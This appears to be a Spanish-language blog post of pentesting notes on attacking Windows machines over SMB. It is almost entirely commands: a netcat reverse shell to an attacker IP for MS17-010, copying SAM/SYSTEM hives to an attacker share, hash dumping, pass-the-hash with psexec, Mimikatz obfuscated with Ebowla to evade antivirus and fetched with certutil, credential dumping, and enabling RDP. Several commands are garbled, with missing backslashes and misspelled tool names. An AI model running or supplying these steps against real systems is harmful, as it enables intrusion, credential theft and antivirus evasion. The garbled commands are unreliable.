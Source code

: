 
---
title: Escaneo y Persistencia con CrackMapExec y Mimikatz
layout: post
---

## Escaneo con CrackMapExec

```bash
crackmapexec smb ip.victima
```

### Explotación de MS17

Para explotar manualmente MS17, hay que crear un recurso con `impacket-smb` que contenga `netcat.exe`. 

Ejemplo:

```bash
\ip.atacante\smbfolder
etcat.exe -e cmd 10.10.14.29 4444
```

Usando el exploit de zzz: viene con un checker que permite ver si es vulnerable a MS17 y listar los recursos. Si no muestra nada, usa `guest`.

Comando para compartir el recurso:

```bash
impacket-smb smbfolder $(pwd) --smb2support
```

Otra forma:

```bash
impacket-smb smbfolder=/tmp/recurso/que/quiero/compartir
```

**Poner en escucha con netcat en el puerto 4444**:

```bash
nc -lvnp 4444
```

---

## Persistencia

### 1. SAM

Crear una carpeta en `/tmp` y luego ejecutar:

```bash
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Compartir archivos por red desde Windows después de crear copias de SAM y SYSTEM usando el recurso compartido:

```bash
impacket-smb smbfolder $(pwd) --smb2support
```

Copiar los archivos:

```bash
copy sam.backup \IPecursolinux\sam
copy system.backup \IPecursoLinux\system
```

Tener los archivos `sam` y `system` en Kali y ejecutar:

```bash
impacket-secretsdump -sam ruta/sam -system ruta/system LOCAL
```

Esto nos proporcionará los hashes para hacer **pass the hash** o crackearlos.

Ejemplo de uso con CrackMapExec para obtener secretos:

```bash
crackmapexec smb Ip-victima -u 'Administrator' -H 'hash' --lsa
```

### Para tener una shell:

```bash
impacket-psexec WORKGROUP/Administrator@Ip-victima -hashes :'hash'
```

---

### 2. Mimikatz

Ofuscar `Mimikatz` usando **Ebowla**.

Primero, clonar el repositorio:

```bash
git clone https://github.com/Genetic-Malware/Ebowla
```

Configuración de Ebowla:

```bash
output_type = GO
payload_type = EXE
```

Cambiar variables de entorno:

```bash
echo %computername%
echo %username%
echo %Number_of_processors%
```

Después de configurar el entorno de la víctima, ejecutar:

```bash
python2 ebowla.py mimikatz.exe generic_config
```

Esto crea el archivo `go_symetric_mimikatz.exe.go`. Para compilarlo:

```bash
./build_x64_go.sh go_symetric_mimikatz.exe.go archivo_legitimo.exe
```

Para pasar archivos de Linux a Windows:

```bash
python3 -m http.server 8080
```

En Windows, descargar el archivo:

```bash
certutils.exe -f -urlcache -split http://ip.linux/archivo_legitimo.exe
```

Luego, ejecutar el `Mimikatz` ofuscado y dumpear credenciales:

```bash
privilege::debug
sekurlsa::logonPasswords
```

---

### 3. RDP (Puerto 3389)

Para habilitar RDP, se necesita la contraseña de administrador. Ejecutar:

```bash
crackmapexec smb Ip-victima -u 'Administrator' -p 'password' -M rdp -o action=enable
```

RDP ya estará activo.
